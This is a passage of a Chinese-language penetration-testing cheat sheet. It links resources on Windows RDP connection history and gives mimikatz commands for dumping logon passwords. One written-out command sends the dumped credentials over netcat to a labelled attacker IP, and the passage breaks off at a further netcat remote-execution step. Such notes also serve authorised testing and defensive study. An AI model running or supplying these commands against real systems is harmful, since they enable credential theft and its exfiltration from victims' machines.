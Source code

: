 **连接记录**
- 文章
    - [渗透技巧——获得 Windows 系统的远程桌面连接历史记录](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E8%8E%B7%E5%BE%97Windows%E7%B3%BB%E7%BB%9F%E7%9A%84%E8%BF%9C%E7%A8%8B%E6%A1%8C%E9%9D%A2%E8%BF%9E%E6%8E%A5%E5%8E%86%E5%8F%B2%E8%AE%B0%E5%BD%95/)
    - [关于 windows 的 RDP 连接记录](http://rcoil.me/2018/05/%E5%85%B3%E4%BA%8Ewindows%E7%9A%84RDP%E8%BF%9E%E6%8E%A5%E8%AE%B0%E5%BD%95/)
    - [How to Clear RDP Connections History in Windows](http://woshub.com/how-to-clear-rdp-connections-history/#h2_3)

- 工具
    - [3gstudent/List-RDP-Connections-History](https://github.com/3gstudent/List-RDP-Connections-History)

---

#### 口令获取及破解

**工具**
- **mimikatz**
    - 文章
        - [九种姿势运行 Mimikatz](https://www.freebuf.com/articles/web/176796.html)
        - [Mimikatz 使用小技巧](https://www.webshell.cc/5343.html)

    提权

    `privilege::debug`

    抓取密码

    `sekurlsa::logonpasswords`

    输出
    ```shell
    mimikatz.exe ""privilege::debug"" ""log sekurlsa::logonpasswords full"" exit && dir # 记录 Mimikatz 输出
    mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> log.txt # 输出到 log.txt
    ```

    输出传输到远程机器
    ```shell
    # Attacker 执行
    nc -lvp 4444

    # Victim 执行
    mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit | nc.exe -vv 192.168.1.1 4444
    # 192.168.1.1 为Attacker IP
    ```

    通过 nc 远程执行
    ```shell
    # Victim 执行
    nc -lvp 443
